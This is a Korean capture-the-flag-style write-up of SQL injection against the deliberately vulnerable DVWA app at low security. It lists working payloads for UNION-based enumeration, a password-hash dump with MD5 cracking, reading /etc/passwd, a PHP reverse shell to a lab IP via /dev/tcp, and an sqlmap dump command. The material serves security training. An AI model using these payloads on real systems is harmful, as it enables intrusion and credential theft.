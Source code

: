 
DVWA v1.0.7

# SQL Injection

## Security Level : low

### 풀이

![image](https://github.com/user-attachments/assets/eea201ad-8b97-4857-ac38-85a5fbdbda2e)

유저 ID를 검색하는 화면이 나옴

![image](https://github.com/user-attachments/assets/30861f99-1bf2-4228-ae85-2f20fd3f8c2d)

1을 입력하면 admin 나옴. User ID 에 해당하는 번호를 입력하면 그에 대응하는 user가 출력됨을 알 수 있음.

![image](https://github.com/user-attachments/assets/6f500fc8-aea5-498f-85d0-d923653d366f)

"'or 1=1 #" 로 SQL Injeciton 공격을 실행하니 모든 유저의 정보가 나타남.

![image](https://github.com/user-attachments/assets/c1f32cb7-28d5-4f4b-842e-a593981af107)

'union select 1,2 from information_schema.tables # 로 현재 출력하고 있는 열의 개수는 2개임을 알게 됨.

![image](https://github.com/user-attachments/assets/b2cddd43-dd29-4771-ae1b-4cc7fd97e46b)

'UNION SELECT table_name, NULL FROM information_schema.tables # 를 통해 users 라는 테이블명을 알게 됨.

![image](https://github.com/user-attachments/assets/9ba8245f-bf79-42bd-8414-7669f1faadc1)

'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' # 를 통해 users 테이블에는 user_id, first_name, last_name, user, password, avatar 라는 열이 있음을 알게 됨.

![image](https://github.com/user-attachments/assets/8938bb15-8d90-4961-8f0c-940e6ef7f1ef)

'union select user, password from users # 를 통해 user 와 password 값을 알아냄. password는 암호화되어 있음.

![image](https://github.com/user-attachments/assets/1398434e-f753-4472-b3cd-1d1d8150c5ac)

admin의 암호화된 비밀번호가 어떤 방식으로 암호화되어 있는지 확인해보니 md5가 가장 가능성이 높음.

![image](https://github.com/user-attachments/assets/835e5a19-b125-4346-9e75-f8dc086bb15d)

md5로 decode해보니 password라는 값이 나옴. 따라서 admin의 비밀번호는 password라는 것을 알 수 있음.

![image](https://github.com/user-attachments/assets/2f1e8220-c57d-427f-92d9-4154d56e16ef)

1' union select null, load_file('/etc/passwd') # 로 /etc/password 를 불러 올 수 있음.

![image](https://github.com/user-attachments/assets/b4316c6f-7fa2-4fa0-8d4a-b2fbcbe377a2)

' union select '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/192.168.56.102/8888 0>&1\'"); ?>', null into outfile '/tmp/shell.php'#

로 /tmp 경로에 shell.php 파일을 생성한 후, file inclusion 에서 사용한 취약점을 이용하여 /tmp/shell.php 를 실행하여 리버스쉘 시도

![image](https://github.com/user-attachments/assets/71e53c43-9b86-43ca-a927-5c64ce3ff534)

sqlmap -u "http://192.168.56.110/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=b7h1cscpu6mtaogtllp8r1ccv1; security=low" --dump

SQL Injection 취약점을 이용하여 dvwa 데이터베이스 내 users 테이블에 접근

사용자 계정 정보 및 암호화된 비밀번호와 평문으로 크랙된 비밀번호 확인

### 페이지 소스

<img src=https://github.com/user-attachments/assets/a3d6564a-6a5f-4211-af1e-b54b081b3e40 width=600>

$id = $_GET['id'];

$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";   → 해당 코드는 id로 전달된 사용자 입력값을 별도의 필터링이나 검증 없이 직접 SQL 쿼리문에 삽입

## Security Level : medium

### 풀이



### 페이지 소스



## Security Level : high

### 풀이



### 페이지 소스








